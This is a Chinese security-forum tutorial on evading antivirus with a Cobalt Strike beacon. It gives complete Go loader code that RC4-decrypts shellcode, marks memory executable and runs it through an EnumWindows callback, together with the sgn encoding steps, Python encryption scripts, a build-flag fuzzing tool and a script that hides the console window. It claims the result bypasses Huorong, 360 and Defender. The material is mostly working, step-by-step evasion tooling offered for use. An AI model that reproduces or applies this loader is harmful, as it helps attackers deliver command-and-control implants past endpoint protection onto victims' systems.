# cs免杀(lodaer1，过国内御三家，微步云查杀)-先知社区

> **来源**: https://xz.aliyun.com/news/18081  
> **文章ID**: 18081

---

# 1.先放最终代码

实际测试时间 2025年5月7日

```
package main

import (
	"crypto/rc4"
	"golang.org/x/sys/windows"
	"syscall"
	"unsafe"
)

func main() {

	// 1.加载kernel32.dll
	kernel32_yawataa := windows.NewLazyDLL("kernel32.dll")
	// 2.获取windows api
	Activeds := syscall.NewLazyDLL("Activeds.dll")
	AllocADsMem_yawataa := Activeds.NewProc("AllocADsMem")
	VirtualProtect := kernel32_yawataa.NewProc("VirtualProtect")
	User32_yawataa := windows.NewLazyDLL("User32.dll")
	EnumWindows_yawataa := User32_yawataa.NewProc("EnumWindows")
	RtlCopyMemory := kernel32_yawataa.NewProc("RtlCopyMemory")
	key := []byte("a3cb2tg1y!@#")
	sc := []byte{0x41, 0x0b,...., 0xee}
	cp, _ := rc4.NewCipher(key)

	// 解密Shellcode
	decrypted := make([]byte, len(sc))
	cp.XORKeyStream(decrypted, sc)
	addr, _, _ := AllocADsMem_yawataa.Call(uintptr(len(decrypted)))
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&decrypted[0])), uintptr(len(decrypted)))

	oldProtect := 0x40
	VirtualProtect.Call(addr, uintptr(len(decrypted)), 0x40, uintptr(unsafe.Pointer(&oldProtect)))
	EnumWindows_yawataa.Call(addr, 0)
	// 7.关闭 DLL

}

```

展示效果

## 1.过火绒内存查杀

​







## 2.360 无风险







### 3.过defender





# 实现步骤

## 1.cs的选择

选择cs4.5也可以，但是火绒6.0的内存查杀机制对这个版本比较严格，需要修改profile文件进行绕过。

​

或者是直接选择cs4.9或者是vshell(实测，这两个生成的sc能够很轻松的绕过火绒6.0的内存查杀)

（后续我会把我使用的版本和使用到的工具脚本放在百度网盘里面发出来）

​

## 2.对cs的处理

（此处我选择的是cs4.9）

我就只改了一个端口，我找的这个版本好像已经修改好了特征



改成1412这个端口(哈哈哈哈，怪盗基德嘛)

直接进行启动

```
./teamserver 192.168.70.129 yawataa CS4.9-10010.profile
```

## 3.开始免杀

选择这个生成方式，有阶段的



生成方式为raw(二进制格式的)，我们放到sgn(一个内存加解密工具，后面我会专门写免杀0基础的知识)下面，因为我们等会要使用sgn进行加密我们的shellcode





使用sgn进行加密

在cmd窗口这么运行就可以了，会生成一个pd.bin文件，就是我们加密后的sc

```
sgn -a 64 -c 1 -o pd.bin payload_x64.bin
```



此时我们还需要转换一下因为之后我们要拿去进行rc4加密

​

​

de.py脚本(转换脚本)

```
def read_binary_file(file_path):
    try:
        with open(file_path, 'rb') as file:
            content = file.read()
            hex_string = ''.join(f'\x{byte:02x}' for byte in content)
            print(hex_string)
    except FileNotFoundError:
        print(f"File not found: {file_path}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    file_path = "E:\cs4.5\cs4.5\sgn和各种加密脚本\工具\sgn\pd.bin"  # 替换为你的文件路径
    read_binary_file(file_path)
```



拿到我们处理好后的sc

​

然后再放入

​

rc4en.py这个脚本进行rc4加密（这么处理是因为面对有阶段的sc的话，如果输出到命令行窗口会数据过大，很慢）

```
from Crypto.Cipher import ARC4

shellcode = b"your_sc"
key = b'a3cb2tg1y!@#'

cipher = ARC4.new(key)
encrypted = cipher.encrypt(shellcode)

hex_bytes = [f"0x{b:02x}" for b in encrypted]
go_code = "var encryptedShellcode = []byte{" + ", ".join(hex_bytes) + "}"

# 写入文件（UTF-8编码）
with open('sc.txt', 'w', encoding='utf-8') as f:
    f.write(go_code)

print("[+] 加密结果已保存到 sc.txt")  # 添加操作提示
```



我们再把这个加密后的sc放入我们的load代码里面

```
package main

import (
	"crypto/rc4"
	"golang.org/x/sys/windows"
	"syscall"
	"unsafe"
)

func main() {

	// 1.加载kernel32.dll
	kernel32_yawataa := windows.NewLazyDLL("kernel32.dll")
	// 2.获取windows api
	Activeds := syscall.NewLazyDLL("Activeds.dll")
	AllocADsMem_yawataa := Activeds.NewProc("AllocADsMem")
	VirtualProtect := kernel32_yawataa.NewProc("VirtualProtect")
	User32_yawataa := windows.NewLazyDLL("User32.dll")
	EnumWindows_yawataa := User32_yawataa.NewProc("EnumWindows")
	RtlCopyMemory := kernel32_yawataa.NewProc("RtlCopyMemory")
	key := []byte("a3cb2tg1y!@#")
	sc := []byte{0x41, 0x0b,...., 0xee}
	cp, _ := rc4.NewCipher(key)

	// 解密Shellcode
	decrypted := make([]byte, len(sc))
	cp.XORKeyStream(decrypted, sc)
	addr, _, _ := AllocADsMem_yawataa.Call(uintptr(len(decrypted)))
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&decrypted[0])), uintptr(len(decrypted)))

	oldProtect := 0x40
	VirtualProtect.Call(addr, uintptr(len(decrypted)), 0x40, uintptr(unsafe.Pointer(&oldProtect)))
	EnumWindows_yawataa.Call(addr, 0)
	// 7.关闭 DLL

}

```

先运行一下测试能否上线



欧克能正常上线，但是用go写免杀的都知道，这个加载器没有隐藏黑框的功能



他执行的时候是会有黑框的，我测试了网上的几种方式，但是都并不好用。我选择的是用的vc里的某个工具(editbin.exe),修改exe的属性，让其没有黑框

原本的命令行命令

```
editbin /SUBSYSTEM:WINDOWS myapp.exe
```

并且360对编译参数也有要求，所以我抄了一个使用不同参数fuzz编译的脚本，和写了一个批量隐藏黑框的脚本

go语言()

批量编译

```
package main

import (
	"flag"
	"fmt"
	"math/rand"
	"os"
	"os/exec"
	"path/filepath"
	"strings"
	"time"
)

const (
	resultDir    = "result"
	randomLength = 8
)

var buildConfigs = [][]string{
	{},
	{"-race"},
	{"-trimpath"},
	{"-ldflags", "-w"},
	{"-ldflags", "-s"},
	{"-ldflags", "-H=windowsgui"},
	{"-ldflags", "-w -s"},
	{"-trimpath", "-ldflags", "-w -s"},
	{"-ldflags", "-w -s -H=windowsgui"},
	{"-trimpath", "-ldflags", "-w -s -H=windowsgui"},
}

func main() {
	sourceFile := flag.String("f", "", "要编译的Go源文件路径")
	flag.Parse()

	if *sourceFile == "" {
		fmt.Println("必须使用 -f 参数指定源文件")
		flag.Usage()
		return
	}

	os.MkdirAll(resultDir, os.ModePerm)
	rand.Seed(time.Now().UnixNano())

	for _, params := range buildConfigs {
		exeName := generateRandomName() + ".exe"
		outputPath := filepath.Join(resultDir, exeName)

		cmdArgs := buildCommand(params, outputPath, *sourceFile)
		fmt.Printf("编译命令: go %s
", strings.Join(cmdArgs, " "))

		if err := compile(cmdArgs); err != nil {
			fmt.Printf("[-] 编译失败: %v
", err)
		} else {
			fmt.Printf("[+] 编译成功: %s

", outputPath)
		}
	}
}

func buildCommand(params []string, output, source string) []string {
	return append([]string{"build", "-o", output}, append(params, source)...)
}

func compile(args []string) error {
	cmd := exec.Command("go", args...)
	if output, err := cmd.CombinedOutput(); err != nil {
		return fmt.Errorf("%v
%s", err, string(output))
	}
	return nil
}

func generateRandomName() string {
	const chars = "yanami123456789"
	b := make([]byte, randomLength)
	for i := range b {
		b[i] = chars[rand.Intn(len(chars))]
	}
	return string(b)
}

```

批量隐藏黑框的脚本

```
package main

import (
	"fmt"
	"io/fs"
	"log"
	"os"
	"os/exec"
	"path/filepath"
	"runtime"
	"strings"
)

const (
	targetFolder = "./result"  // 要处理的文件夹
)

func main() {
	if runtime.GOOS != "windows" {
		log.Fatal("该脚本仅支持 Windows 系统")
	}

	// 查找 editbin.exe
	editbinPath, err := findEditBinInPath()
	if err != nil {
		log.Fatalf("找不到 editbin.exe: %v
请确保已将其所在目录添加到系统 PATH 环境变量", err)
	}

	// 遍历目标文件夹
	err = filepath.WalkDir(targetFolder, func(path string, d fs.DirEntry, err error) error {
		if err != nil {
			return err
		}

		// 只处理 .exe 文件
		if !d.IsDir() && strings.HasSuffix(strings.ToLower(path), ".exe") {
			fmt.Printf("正在处理: %s
", path)
			if err := modifySubsystem(editbinPath, path); err != nil {
				log.Printf("处理失败: %s → %v", path, err)
			} else {
				fmt.Printf("成功修改: %s
", path)
			}
		}
		return nil
	})

	if err != nil {
		log.Fatalf("遍历文件夹失败: %v", err)
	}
}

// 修改文件子系统属性
func modifySubsystem(editbinPath, targetExe string) error {
	cmd := exec.Command(editbinPath, "/SUBSYSTEM:WINDOWS", targetExe)
	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("命令执行错误: %v
输出: %s", err, string(output))
	}
	return nil
}

// 从 PATH 环境变量中查找 editbin.exe
func findEditBinInPath() (string, error) {
	pathEnv := os.Getenv("PATH")
	paths := strings.Split(pathEnv, ";")

	for _, path := range paths {
		fullPath := filepath.Join(path, "editbin.exe")
		if _, err := os.Stat(fullPath); err == nil {
			return fullPath, nil
		}
	}

	return "", fmt.Errorf("editbin.exe 不在 PATH 环境变量中")
}
```

我的已经编译完成了



然后我们先使用yanami.exe进行批量编译

```
yanami.exe -f bypasstest2.go
```



然后再使用

changeme.exe进行批量隐藏黑框(这个需要配置环境变量，如果师傅们不能正常使用的话可以改一下脚本重新编译，我放在上面的，或者是之后我出一个配置环境变量的步骤笔记)



就这样这些免杀就做好了



# 留个坑，后面发文件分离版本的
